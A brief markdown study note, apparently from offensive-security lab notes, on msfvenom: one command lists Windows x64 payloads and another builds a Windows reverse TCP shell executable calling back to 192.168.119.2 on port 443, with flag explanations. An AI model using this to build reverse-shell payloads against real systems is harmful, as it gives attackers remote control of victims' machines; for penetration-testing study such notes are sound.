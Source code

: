 # `msfvenom`
```
msfvenom -l payloads --platform windows --arch x64
```
- `-l`: List payloads
- `--platform`: Specify the platform
- `--arch`: Specify architechture
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.119.2 LPORT=443 -f exe -o nonstaged.exe
```
- `-p`: Select the payload
- `LHOST`: Specify the localhost
- `LPORT`: Specify the local port
- `-f`: Set the output format
- `-o`: Specify the output file name
